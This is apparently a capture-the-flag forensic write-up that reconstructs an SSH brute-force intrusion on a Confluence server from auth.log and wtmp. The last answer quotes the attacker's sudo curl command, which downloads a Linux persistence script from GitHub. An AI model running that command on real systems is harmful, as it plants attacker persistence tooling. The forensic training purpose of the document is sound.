 ```yaml
---
layout: default
---
```


[go back](../)

<h1 style="text-align: center;">Incident Response and Forensic Analysis on SSH Brute-Force Attack</h1>

## Scenario
You will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution.

## Goal
The goal is to analyze the auth.log and the wtmp log files and answer the following questions as part of the incident response.

## Response

*Analyzing the auth.log, can you identify the IP address used by the attacker to carry out a brute force attack?*

It appears that the IP 65.2.161.68 continuously keeps failing to authenticate. These logs show someone trying to log in as admin, and the system saying that there is no user admin. These failed login run from 06:31:33 to 06:31:42, suggesting a brute force tool or script is running, as a user at the keyboard could not type that fast:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/9de73f1f-2085-4d7c-8c9b-5e7dce21dc89)

*The brute force attempts were successful, and the attacker gained access to an account on the server. What is the username of this account?*

Successful authentication as the user `root` at 06:32:44:
![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/d93da765-46b4-40d2-8fb7-57972efc20b1)

*Can you identify the timestamp when the attacker manually logged in to the server to carry out their objectives?*

2024-03-06 06:32:45

*SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?*

37

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/c543c85a-d4a6-465d-bbcc-c7d64c4478bc)

*The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?*

cyberjunkie.

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/1531bc2f-6cad-4d58-af23-677b6c24ce55)

*What is the MITRE ATT&CK sub-technique ID used for persistence?*

[T1136.001](https://attack.mitre.org/techniques/T1136/001/)

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/78b15345-d619-4edb-b589-fb27cd95a572)

*How long did the attacker's first SSH session last based on the previously confirmed authentication time and session ending within the auth.log? (seconds)*

Total time of the session is 06:32:45 - 06:37:24, so, 279 seconds

*The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?*

`/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`

![image](https://github.com/marufrahmangit/hack-the-box/assets/25085219/2265c87d-7012-445c-a50f-c3169a048d31)
